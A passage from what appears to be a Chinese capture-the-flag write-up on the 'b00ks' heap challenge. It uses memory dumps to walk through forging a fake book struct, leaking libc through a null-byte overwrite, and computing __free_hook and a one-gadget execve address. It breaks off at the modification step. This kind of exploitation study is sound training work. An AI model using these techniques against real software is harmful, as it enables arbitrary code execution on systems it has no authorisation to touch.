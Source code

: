 #### 7. 分步讲解

**1. 创建第一个`first b00k`**
```
0x55f276c74160:	0x0000000000000001	               0x000055f276c74020--> Name
0x55f276c74170:	0x000055f276c740c0(description)	   0x000000000000008c(140)
```
&nbsp;&nbsp;&nbsp;&nbsp;**结论:** 当`0x55f276c74160 --> 0x55f276c74100`时, `0x55f276c74100`正好落在`first b00k`的`description`中, 属于可控范围, 为我们伪造`b00k`打下了基础.

**2. 伪造`b00k`**
```
0x55f276c740c0:	0x4141414141414141	0x4141414141414141
0x55f276c740d0:	0x4141414141414141	0x4141414141414141
0x55f276c740e0:	0x4141414141414141	0x4141414141414141
0x55f276c740f0:	0x4141414141414141	0x4141414141414141
0x55f276c74100:	0x0000000000000001	0x000055f276c74198----
0x55f276c74110:	0x000055f276c74198	0x000000000000ffff   |
......                                                   |
0x55f276c74160:	0x0000000000000001	0x000055f276c74020   |
0x55f276c74170:	0x000055f276c740c0	0x000000000000008c   |
0x55f276c74180:	0x0000000000000000	0x0000000000000031   |
0x55f276c74190:	0x0000000000000002	0x00007f282b8e7010 <-|
0x55f276c741a0:	0x00007f282b8c5010	0x0000000000021000
0x55f276c741b0:	0x0000000000000000	0x0000000000020e51
```
&nbsp;&nbsp;&nbsp;&nbsp;**结论:** 可以看到`0x55f276c74100`已经是`fake b00k`

**3. 空字节覆盖**
```
0x55f275d55040:	0x4141414141414141	0x4141414141414141
0x55f275d55050:	0x4141414141414141	0x4141414141414141
0x55f275d55060:	0x000055f276c74100	0x000055f276c74190
```
&nbsp;&nbsp;&nbsp;&nbsp;泄露的是`second b00k`的`name pointer`和`description pointer`.
这个指针和libc base address是有直接联系的.
```
0x000055f276c73000 0x000055f276c95000 rw-p	[heap]
0x00007f282b33e000 0x00007f282b4fe000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f282b4fe000 0x00007f282b6fe000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
```
&nbsp;&nbsp;`offset = 0x7f282b8e7010 - 0x00007f282b33e000 = 0x5a9010`

&nbsp;&nbsp;**结论:** 通过伪造的`b00k`, 我们泄露了 `libc base address`.

**4.获取相关指针**

主要是两个
```
malloc_hook = libc.symbols['__free_hook'] + libcbase
execve_addr = libcbase + 0x4526a
```
&nbsp;&nbsp;&nbsp;&nbsp;**结论:**  通过`libc base address`, 退出了`__free_hook`和`execve_addr`在程序中的实际位置.

**5.修改**
